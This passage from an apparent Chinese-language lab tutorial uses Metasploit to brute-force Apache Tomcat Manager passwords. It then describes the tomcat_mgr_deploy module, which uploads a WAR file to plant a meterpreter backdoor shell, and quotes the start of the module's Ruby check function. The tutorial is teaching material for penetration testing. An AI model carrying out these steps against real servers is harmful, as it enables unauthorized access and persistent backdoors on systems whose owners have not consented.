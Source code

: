 
接着使用命令，进行攻击，暴力破解，跑出密码：

```
# 对所要渗透的目标主机，进行攻击
exploit
```


![图片描述](../imgs/1480472456820.png-wm.png)


由图可以看出，前面符号为绿色的 + 号的，即为可用的成密码。


### 4.2 利用 Tomcat 密码进行渗透

由相应模块得到 Tomcat 密码之后，我们将利用密码，对目标主机进行渗透，使用模块 `exploit/multi/http/tomcat_mgr_deploy`，这个模块中的逻辑是登录 Tomcat Manager，然后执行一段 payload，而这段 payload 的作用就是使用 PUT 操作上传一个 war 包，这个 war 包中包含一个 jsp 文件来提供 meterpreter 后门 Shell。

攻击模块代码：

+ [exploit/multi/http/tomcat_mgr_deploy](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/tomcat_mgr_deploy.rb)


```
# 检查函数
def check
    # 查询服务器 server 信息，赋值给 res
    res = query_serverinfo
    disconnect
    return CheckCode::Unknown if res.nil?
    if (res.code.between?(400, 499))
      vprint_error("Server rejected the credentials")
      return CheckCode::Unknown
    end

    report_tomcat_credential

    # 打印状态信息，输出到屏幕
```